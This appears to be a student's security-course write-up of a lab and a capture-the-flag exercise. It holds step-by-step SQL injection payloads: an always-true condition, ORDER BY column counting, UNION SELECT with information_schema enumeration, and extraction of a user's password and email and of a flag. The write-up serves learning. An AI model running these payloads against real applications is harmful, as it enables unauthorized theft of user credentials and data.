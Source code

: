```yaml
---
title: "Week 6 - Assignment"
date: 2025-05-29
categories: [assignment]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# Assignment 6 - 1 / Extracting Only doldol's Data

## (1). Identify the SQL Injection point
   
![스크린샷 2025-05-29 120037](https://github.com/user-attachments/assets/a7bf66d0-a58e-470b-b149-ac64d4603cd6)

By injecting a condition that always returns true (' OR '1'='1), all user accounts were displayed, confirming that the input is directly inserted into the SQL query.

## (2) Use ORDER BY to find the number of columns

Try injecting:

```
1234' order by [num] #
```

![image](https://github.com/user-attachments/assets/5bac249a-d89f-431d-8ddd-eed745916420)

- No error occurs for Order by 1 to 4
- However order by 5 makes the error
  
This tells us that the query has exactly 4 columns, since trying to sort by a non-existent fifth column causes a failure.

## (3) Use UNION SELECT to determine which columns are displayed

![image](https://github.com/user-attachments/assets/192e5e74-9c6b-4b59-be53-ab9bb6cd305c)

Each number (1, 2, 3, 4) is displayed in a different column on the page.
This confirms that **all four columns** are reflected in the output, meaning we can use any of them to display extracted data later (like usernames, emails, flags, etc.).


## (4) Use database() to find the current database name

![image](https://github.com/user-attachments/assets/e91cf7b5-2d25-409c-a2bb-c9815ce61339)

Try injecting:

```
1234' union select datbase(), 2, 3, 4#
```
The name of database is "segfault_sql"	


## (5) Use information_schema.tables to list all table names

![image](https://github.com/user-attachments/assets/45460560-556b-4688-ae25-27218c0a758c)

Try injecting:

```
1234' union select table_name, 2, 3, 4 from information_schema.tables where table_schema='segfault_sql' #
```
The names of the tables are **game, member, secret and secret_member**.

## (6) Use information_schema.columns to list all column names



Try injecting:

```
1234' union select column_name, 2, 3, 4 from information_schema.columns where table_name = 'member' #
```
The names of the coulmns in **member** table are **user_id, user_pass,	name, user_level, info ,id, pass and email**.



## (7) Finally, use UNION SELECT to extract the data

![image](https://github.com/user-attachments/assets/735d9c72-d0b8-49e1-8f4d-a430dda46d0c)
```
1234' union select id, pass, email, info from member #
```

To extract only **doldol**'s data, modify the payload as follows:

```
' union select id, pass, email, info from member where id='doldol' #
```

**Result:**

![image](https://github.com/user-attachments/assets/dbda74c3-e0f9-4c40-a20f-c9cc8297b36b)

Success!




---

# Assignment 6 - 2 / CTF SQL Injection 1

Find the SQL Injection point
```
bello' or '1'='1 
```
![image](https://github.com/user-attachments/assets/2ac94953-e134-442e-9fca-c7f255916af6)



The number of columns is 4
```
bello' order by [num] #
```
![image](https://github.com/user-attachments/assets/68c8e490-72c7-41a5-a08e-807ece73ef22)



Name of Databse: sqli_1
```
bello' union select database(), 2 ,3 ,4 #
```
![image](https://github.com/user-attachments/assets/07c57dd6-43f3-4e5f-bcf1-78c98badbcc9)



Find the tables in Database
```
' union select table_name, 2, 3 ,4 from information_schema.tables where table_schema = 'sqli_1' #
```
![image](https://github.com/user-attachments/assets/bff2111c-d1cf-49d2-9863-ef79d7211b3a)



Find the coulmns in **Flag_table**
```
' union select column_name, 2, 3 ,4 from information_schema.columns where table_name = 'flag_table' #
```
![image](https://github.com/user-attachments/assets/e029b62d-99b6-421d-82cd-3fe6ed6ed37e)


Find the **FLAG** 
```
' union select flag, 2, 3, 4 from flag_table # 
```
![스크린샷 2025-05-29 172917](https://github.com/user-attachments/assets/785e3dc8-bf25-40da-9916-c4ba81273669)







